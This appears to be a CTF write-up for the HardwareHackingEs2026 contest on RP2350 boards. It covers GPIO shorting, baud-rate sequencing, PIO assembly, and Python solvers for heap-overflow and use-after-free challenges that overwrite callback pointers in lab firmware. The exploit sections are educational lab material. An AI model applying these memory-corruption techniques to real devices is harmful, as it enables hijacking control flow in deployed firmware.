




# **Fourth** Winner: **@m2rc_** (Marc Barrantes) 

# HardwareHackingEs2026 CTF Writeup 

# Long Short

Once connected to the serial console, we get the following output from the challenge:

> CHALLENGE: Checking if GPIO2, GPIO3, GPIO4, GPIO5 are all shorted to GND...

Looking at the pinout docs for the rp2350, we can see which pins must be bridged to GND.



Since we have to bridge multiple pins, I used what I had available: 2 jumpers, 1 bracelet, and a necklace.



This would output the flag to the console.

# In order crazy baud rates

In this challenge the serial console doesn't tell us much, so we'll have to reverse-engineer the firmware. The instructions from https://github.com/therealdreg/ctfhardwarehackingcon2026 must be followed in order to begin reverse engineering the challenges from the firmware.

We should search for the string `CHALLENGE: In order crazy baud rates!` in Ghidra to find any references to it, this way we can find where the challenge code is implemented.

Before even looking at the decompiled firmware itself, based on the challenge's title and lack of user input, we can make an educated guess on what it may be about: we probably need to change the baud rate at which our serial client reads/writes to the serial port to communicate with it in a specific order.



We can see that in one of the functions which reference the string mentioned early, there's an array of ints which is initialized with values commonly used as baud rates. Knowing the values, we can change the baud rate from our serial client in the order which they're assigned in the array to get the flag.

In Tera Term, we can change the baud range once connected in Setup -> Terminal -> Serial port -> Speed

```
ENTER CHALLENGE:  c

Rules:
 - The objective of this CTF is not to obtain the flag, but to learn in depth what you are doing.
 - You must use your intuition and the challenge name, or reverse engineer the code to understand what to do.
 - You must understand serial communication and baud rate configuration.
 - Obtaining flags directly by reverse engineering the flag-obfuscation mechanism/flag-algorithm or executing code in unintended areas is strictly prohibited. This would be too easy, and I chose not to invest time in hardening the firmware security. This is a challenge meant for learning and having fun.
 - Do NOT use AI (ChatGPT, Copilot, etc.) to solve these challenges. Using AI robs you of the learning experience, which is the entire point of this CTF. You will gain far more by working through the problems yourself, even if it takes longer.
 - You must demonstrate in your write-up how you solved the challenge and what you learned.
 - If you violate the rules, you will be disqualified from the CTF.
 - Check the main rules for more help & more details.
Good luck!

CHALLENGE: In order crazy baud rates!
Part 1 (@19200 baud): 922560823318
Part 2 (@9600 baud): 706927117610
Part 3 (@38400 baud): 178281349171
Part 4 (@115200 baud): 36058837200056
```

# PIO put led on (master of PIO assembly)

```
ENTER CHALLENGE:  l

Rules:
 - The objective of this CTF is not to obtain the flag, but to learn in depth what you are doing.
 - You must craft PIO instructions to control the LED using the PIO state machine.
 - PIO0 State Machine 0 is pre-configured: clock = 10 kHz.
 - Side-set: NON-optional, 1 pin = GPIO 25 (LED). Bit 12 = side-set value. 4-bit delay (bits 11:8, max 15).
 - Side-set controls the LED: side-set=1 -> LED ON, side-set=0 -> LED OFF.
 - EVERY instruction drives the LED via side-set (non-optional).
 - SET pins: base = GPIO 20, 2 pins (GPIO 20 and GPIO 21). 'set pins, V' writes V to GPIO 20/21.
 - Enter your PIO program as 10 stamp bytes (hex) followed by 16-bit hex instruction words.
 - The first 10 hex values are your challenge stamp (anti-sharing). The rest are PIO instructions.
 - The LED and AUX pins must follow this EXACT pattern:
     1) LED ON  for ~3 seconds,  GPIO20=1 GPIO21=0
     2) LED OFF for ~8 seconds,  GPIO20=0 GPIO21=1
     3) LED ON  for ~10 seconds, GPIO20=1 GPIO21=1
     4) LED OFF (stay off),      GPIO20=0 GPIO21=0
 - You cannot use this challenge to solve others.
 - You must understand PIO assembly and the RP2350 PIO subsystem.
 - You are not allowed to obtain the flag directly through reverse engineering / debugging.
 - Obtaining flags directly by reverse engineering the flag-obfuscation mechanism/flag-algorithm or executing code in unintended areas is strictly prohibited. This would be too easy, and I chose not to invest time in hardening the firmware security. This is a challenge meant for learning and having fun.
 - Do NOT use AI (ChatGPT, Copilot, etc.) to solve these challenges. Using AI robs you of the learning experience, which is the entire point of this CTF. You will gain far more by working through the problems yourself, even if it takes longer.
 - You must demonstrate in your write-up how you solved the challenge and what you learned.
 - If you violate the rules, you will be disqualified from the CTF.
 - Check the main rules for more help & more details.
Good luck!

CHALLENGE: Control the LED on GPIO 25 with PIO!
PIO0, State Machine 0, running at 10 kHz
Side-set: GPIO 25 (LED), 1 pin, NON-optional. Bit 12 = LED state. Delay = bits 11:8 (max 15).
SET pins: base = GPIO 20, 2 pins (GPIO 20, GPIO 21). 'set pins, V' writes V to GPIO20/21.
Pin direction is set to OUTPUT for GPIO 25, 20, 21
Pattern required:
  Phase 1: LED ON  ~3s,  GPIO20=1 GPIO21=0 (set pins=1, side=1)
  Phase 2: LED OFF ~8s,  GPIO20=0 GPIO21=1 (set pins=2, side=0)
  Phase 3: LED ON  ~10s, GPIO20=1 GPIO21=1 (set pins=3, side=1)
  Phase 4: LED OFF stay, GPIO20=0 GPIO21=0 (set pins=0, side=0)

Enter 10 stamp bytes (hex) followed by PIO instructions as 16-bit hex words, max 32 instructions:
  Format: SS SS SS SS SS SS SS SS SS SS IIII IIII ... (stamp + PIO program)

```

This challenge is about changing the LED's state on certain intervals with delays by using PIO assembly instructions. This initially seemed tricky, as there's no "native" instruction to add a significant delay (seconds) from PIO assembly.

What is available though is a way to "delay" instructions for up to 15 CPU cycles, which at 10 kHz clock speed is only 1.5ms, this is why we'll need to combine this with nested loops to make the delay much longer.

What has been most useful for me to solve the challenge were the following resources:
- Datasheet for RP2350 https://pip-assets.raspberrypi.com/categories/1214-rp2350/documents/RP-008373-DS-2-rp2350-datasheet.pdf?disposition=inline, specifically "11.4. Instruction set"
- Code examples from https://github.com/raspberrypi/pico-examples/blob/master/pio/pio_blink/blink.pio

Getting familiar with PIO assembly was tricky, as there are certain behaviors which may not be too obvious when you first deal with it. A good example of this, which took me more time than I'd like to admit, was something like the following:

Assume you have the following instructions:
```
set x, 1
jmp x-- label1
jmp x-- label1
```

The instruction `jmp x-- label1`, will jump to `label1` if the register `x` is not equal to 0.

When it comes to the first `jmp x--` instruction, since the `x` register is 1, the `jmp` will be taken to `label1`, and the value of `x` will decrement by 1.
The following instruction however, since `x` is 0, the branch will not be taken and `x` will be decremented either way. Since it's an unsigned 32-bit interger, decreasing it from 0 will make it `0xFFFFFF` (maximum value for uint32).

This is something that tripped me up when coding the PIO instructions to perform loops, as I wasn't realising what was really going on under the hood.

```
set x, 1
jmp x-- label1 ; x=1, branch taken to label1
jmp x-- label1 ; x=0, branch NOT taken
jmp x-- label1 ; x=0xFFFFFFFF branch taken to label1
```

Knowing this and by looking at many code examples online, I managed to code the following PIO assembly:

```assembly
.program blink
.side_set 1
    set pins, 1   side 1 [15]
    set x, 10     side 1 [15]
    set y, 31     side 1 [15]
lp_s1:
    nop side 1 [15]
    nop side 1 [15]
    nop side 1 [15]
    jmp y-- lp_s1    side 1 [15]
lp1:
    set y, 31     side 1 [15]
    jmp x-- lp_s1 side 1 [15]
    set y, 31     side 1 [15]
    set x, 31     side 1 [15]
lp_s0:
    set pins, 2   side 0 [15]
    nop side 0 [15]
    nop side 0 [15]
    nop side 0 [15]
    jmp y-- lp_s0 side 0 [15]
lp0:
    set y, 31     side 0 [15]
    jmp x-- lp_s0    side 0 [15]
    set y, 31     side 0 [15]
    set x, 31     side 0 [15]
lp_s0_1:
    set pins, 3   side 1 [15]
    nop side 1 [15]
    nop side 1 [15]
    nop side 1 [15]
    jmp y-- lp_s0_1 side 1 [15]
lp0_1:
    set y, 31     side 1 [15]
    jmp x-- lp_s0_1    side 1 [15]
loop:
    set pins, 0   side 0 [15]
    jmp loop side 0      [15]
```

What this does is turn the LED ON/OFF with the appropiate delays requested by the challenge:

```
  Phase 1: LED ON  ~3s,  GPIO20=1 GPIO21=0 (set pins=1, side=1)
  Phase 2: LED OFF ~8s,  GPIO20=0 GPIO21=1 (set pins=2, side=0)
  Phase 3: LED ON  ~10s, GPIO20=1 GPIO21=1 (set pins=3, side=1)
  Phase 4: LED OFF stay, GPIO20=0 GPIO21=0 (set pins=0, side=0)
```

We can compile the PIO assembly with `pioasm` (https://github.com/raspberrypi/pico-sdk-tools/releases/tag/v2.2.0-3, pico-sdk-tools for your OS).

(from WSL2)
```
$ ./pioasm.exe -o hex ./blink.pio | tr -s '\r\n' ' '; echo
ff01 ff2a ff5f bf42 bf42 bf42 1f83 ff5f 1f43 ff5f ff3f ef02 af42 af42 af42 0f8b ef5f 0f4b ef5f ef3f ff03 bf42 bf42 bf42 1f94 ff5f 1f54 ef00 0f1b
```

Total size of 29 opcodes.

The challenge also mentions the need to send a "STAMP", which is a value unique to each board's firmware. To get this, I went to the challenge's function in Ghidra and looked for the error message you got when entering a wrong STAMP, there was a function checking the first 10 bytes of user input against a hardcoded value within the firmware, I renamed this function to `memcmp`.



We can use python's `serial` library to communicate with the board and send both the STAMP and also PIO instructions:

```python
import serial

s = serial.Serial('COM5', baudrate=9600, timeout=2)
s.read_until(b"ENTER CHALLENGE")
print("read!")
s.write(b"l\n")
print("sent line (LED)")

a = "B8 D4 72 98 CF BF A2 3B 2C F6 ".encode()
a += "ff01 ff2a ff5f bf42 bf42 bf42 1f83 ff5f 1f43 ff5f ff3f ef02 af42 af42 af42 0f8b ef5f 0f4b ef5f ef3f ff03 bf42 bf42 bf42 1f94 ff5f 1f54 ef00 0f1b".encode()
a += "\n".encode()

read = s.read_until(b"(stamp + PIO program)")
print(read.decode('utf-8'))
s.write(a)

while True:
    print(s.readline().decode('utf-8'))
```

Output:

```
Enter 10 stamp bytes (hex) followed by PIO instructions as 16-bit hex words, max 32 instructions:
  Format: SS SS SS SS SS SS SS SS SS SS IIII IIII ... (stamp + PIO program)
Read 10 stamp bytes + 29 PIO instructions
Stamp check PASSED!


Starting PIO state machine... (sys_clk=150000000 Hz, divider=15000.0)
Phase 1: LED ON, AUX OK (GPIO20=1,GPIO21=0). Measuring...

Phase 1 ON: 499 ms...
Phase 1 ON: 1000 ms...
Phase 1 ON: 1500 ms...
Phase 1 ON: 2000 ms...
Phase 1 OK: 2030 ms
Phase 2: AUX OK (GPIO20=0,GPIO21=1). Measuring OFF...
Phase 2 OFF: 1000 ms...
Phase 2 OFF: 2000 ms...
Phase 2 OFF: 3000 ms...
Phase 2 OFF: 4000 ms...
Phase 2 OFF: 5000 ms...
Phase 2 OFF: 6000 ms...
Phase 2 OFF: 7000 ms...
Phase 2 OFF: 8000 ms...
Phase 2 OK: 8297 ms
Phase 3: AUX OK (GPIO20=1,GPIO21=1). Measuring ON...
Phase 3 ON: 1000 ms...
Phase 3 ON: 2000 ms...
Phase 3 ON: 3000 ms...
Phase 3 ON: 4000 ms...
Phase 3 ON: 5000 ms...
Phase 3 ON: 6000 ms...
Phase 3 ON: 7000 ms...
Phase 3 ON: 8000 ms...
Phase 3 OK: 8294 ms
Phase 4: AUX OK (GPIO20=0,GPIO21=0). Verifying LED stays OFF... 

Phase 4 OK: LED stayed OFF for 3000 ms

Congratz! PIO LED pattern correct! Flag: 33790471343607754737840164351074646206898153341236
```

# The dumb PSRAM heap overflow (RISC-V exploiting)

This challenge contains a simple heap overflow:

```
=== The Dumb PSRAM Heap Overflow ===

heap_solved() is at: 0x20001680
heap_not_solved() is at: 0x200016BA

user_buf allocated at:       0x11000AFC (size: 64 bytes)
target struct allocated at:  0x11000B40 (sizeof: 20 bytes)
target->callback is at:      0x11000B50 (currently: 0x200016BA)

Distance from user_buf[0] to target->callback: 84 bytes
Enter hex bytes (e.g. 41 4A A2 ... AA BB CC DD) + ENTER:
NO bounds checking on the write — overflow at will!
NOTE: The first 10 bytes of user_buf must contain the correct challenge stamp.
You must reverse engineer the firmware to find the stamp for this challenge.

```

Again, the STAMP must be sent in the first 10 bytes.

We also see the `target` struct being allocated on the heap, which has a `callback` member containing a function pointer. The serial output tells us our buffer is allocated at `0x11000AFC` and `target->callback` is in `0x11000B50` (offset of 84 bytes).

We also have a function callback that prints the flag:

`heap_solved() is at: 0x20001680`

The data to be sent needs to be something like:

```
[STAMP] (10 bytes) + [padding] (74 bytes) + [heap_solved() addr] (4 bytes, little-endian)
```

This is the solver script for the challenge:

```python
import serial

s = serial.Serial('COM5', baudrate=9600, timeout=2)
s.read_until(b"ENTER CHALLENGE")
print("read!")
s.write(b"p\n")
print("sent line (dumb overflow)")

a = "AB A4 64 0F 1B 1D 72 D6 1B 78 ".encode()
a += "41 ".encode() * 74
a += "80 16 00 20".encode()
a += "\n".encode()

read = s.read_until(b"for this challenge.")
print(read.decode('utf-8'))
s.write(a)

while True:
    print(s.readline().decode('utf-8'))
```


Output:

```
Wrote 88 bytes starting at user_buf (0x11000AFC)
target->callback now points to: 0x20001680
Stamp check PASSED!


Calling target->callback()...


Solved! The dumb PSRAM heap overflow -> flag: 42039257140311905632392958193467101578991391830426
```

#  PSRAM HEAP Use-After-Free (RISC-V exploiting)

```
=== The PSRAM HEAP Use-After-Free ===

uaf_solved() is at: 0x20001ECC
uaf_not_solved() is at: 0x20001F06

Step 1: Allocated victim struct at 0x11000B58 (sizeof: 20 bytes)
  victim->tag at offset 0 (16 bytes)
  victim->callback at offset 16 (4 bytes) = 0x20001F06

Step 2: Freeing victim struct... (pointer 0x11000B58 is now dangling!)

Step 3: Allocating new buffer of SAME size (20 bytes)...
  New buffer allocated at: 0x11000B58
  *** SAME address as freed victim! The allocator reused the memory. ***

You write into new_buf, but the dangling 'victim' pointer still references that                                                                                                              memory.
callback offset within struct: 16 bytes

Enter hex bytes to write into new_buf + ENTER:
NOTE: The first 10 bytes of new_buf must contain the correct challenge stamp.
You must reverse engineer the firmware to find the stamp for this challenge.
```

This challenge is about a Use-After-Free. A struct `victim` with a `callback` member is allocated on the heap, the struct gets freed, however, the `callback` function pointer reference is never nulled out, leaving a dangling pointer. As the challenge output mentions, our input will be allocated where the original object was, allowing us to overwrite the (now freed) `callback` member.

We must send data in the following format:

```
[STAMP] (10 bytes) + [padding] (6 bytes) + [uaf_solved() pointer] (4 bytes, little endian)
```

```python
import serial

s = serial.Serial('COM5', baudrate=9600, timeout=2)
s.read_until(b"ENTER CHALLENGE")
print("read!")
s.write(b"u\n")
print("sent line (UAF)")

a = "61 60 0c ce f7 63 63 3b e1 a9 BB BB BB BB BB BB CC 1E 00 20\n"

read = s.read_until(b"for this challenge.")
print(read.decode('utf-8'))
s.write(a.encode())

while True:
    print(s.readline().decode('utf-8'))
```

Output:

```
read!
sent line (UAF)

Wrote 20 bytes into new_buf (0x11000B58)

Step 4: Calling victim->callback() through DANGLING pointer...      
  victim->callback now = 0x20001ECC
Stamp check PASSED!


Calling...


Solved! PSRAM HEAP Use-After-Free -> flag: 79571145352151249695614854555233573427104990742471
```

# The Not So Dumb PSRAM Heap Overflow (RISC-V exploiting)

This challenge is quite similar to the previous heap overflow challenge, with a few differences:

```
=== The Not So Dumb PSRAM Heap Overflow ===

heap2_solved() is at: 0x20001A4E
heap2_not_solved() is at: 0x20001A86

user_buf allocated at:   0x11000AFC (size: 32 bytes)
guard struct at:         0x11000B20 (sizeof: 16 bytes, magic at offset 0)
target struct at:        0x11000B34 (sizeof: 16 bytes, callback at offset 12)

Guard magic must be: 0x69CAFE69 (little-endian: 69 FE CA 69)
Calculate your offsets from the addresses above. No distances are given!

Enter hex bytes (overflow from user_buf) + ENTER:
NOTE: The first 10 bytes of user_buf must contain the correct challenge stamp.
You must reverse engineer the firmware to find the stamp for this challenge.
```

There's a `guard magic` (0x69CAFE69) value that gets checked before calling `target->callback()`, we also need to calculate the offset from `user_buf` to `guard magic` and `target->callback` based on the leaks we get via the serial output:

```
>>> 0x11000B20-0x11000AFC
36
>>> 0x11000B34-0x11000AFC
56
>>> 
```

Since `target->callback()` is at offset 12 from the `target` struct, the total offset from `user_buf` would be `56 + 12 = 68 bytes`

The STAMP also needs to be sent. The format would be the following:

```
[STAMP] (10 bytes) + [padding] (26 bytes) + [guard magic] (4 bytes) + [padding] (28 bytes) + [heap2_solved() addr] (4 bytes, little-endian)
```

```python
import serial

s = serial.Serial('COM5', baudrate=9600, timeout=2)
s.read_until(b"ENTER CHALLENGE")
print("read!")
s.write(b"o\n")
print("sent line (not so dumb overflow)")

a = "2D C5 1E E8 AD 13 15 DE FA 94 ".encode()
a += "41 ".encode() * 26
a += "69 FE CA 69 ".encode()
a += "41 ".encode() * 28
a += "4E 1A 00 20".encode()
a += "\n".encode()

read = s.read_until(b"for this challenge.")
print(read.decode('utf-8'))
s.write(a)

while True:
    print(s.readline().decode('utf-8'))
```

Output:

```
Wrote 72 bytes starting at user_buf (0x11000AFC)

Stamp check PASSED!


guard->magic = 0x69CAFE69 (expected 0x69CAFE69)

Guard check PASSED!


target->callback = 0x20001A4E

Calling target->callback()...


Solved! The not so dumb PSRAM heap overflow -> flag: 72992740734183157888328416140885225578700134885789
```

